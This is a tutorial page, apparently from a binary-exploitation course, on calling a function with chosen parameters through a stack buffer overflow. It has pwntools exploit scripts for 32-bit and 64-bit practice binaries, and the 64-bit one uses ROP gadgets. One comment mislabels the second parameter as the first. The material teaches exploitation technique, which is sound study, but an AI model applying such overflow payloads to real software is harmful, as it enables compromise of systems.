 ### Exploiting Calling Conventions

> Utilizing Calling Conventions

[exploiting_with_params](../assets/exploiting_with_params.zip)

#### 32-bit

The program expects the stack to be laid out like this before executing the function:

![img](https://1919401647-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-MEwBGnjPgf263kl5vWP%2F-MM6tX_UO7c8cF27y2Ki%2F-MM6tmUuoBNDG2SSXDgD%2Fimage.png?alt=media&token=ecc30eba-e85d-405c-9ed8-2dc70899e4c2)

So why don't we provide it like that? As well as the function, we also pass the return address and the parameters.

![img](https://1919401647-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-MEwBGnjPgf263kl5vWP%2F-MM6tX_UO7c8cF27y2Ki%2F-MM6twJQMrGMQ0FNLXFY%2Fimage.png?alt=media&token=77918223-9007-4853-a758-99d6c5901ffe)

Everything after the address of `flag()` will be part of the stack frame for the next function as it is **expected** to be there - just instead of using `push` instructions we just overwrote them manually.

```python
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

#### 64-bit

Same logic, except we have to utilize the gadgets we talked about previously to fill the required registers (in this case `rdi` and `rsi` as we have two parameters).

We have to fill the registers *before* the function is called

```python
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()
payload += p64(0x0)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```
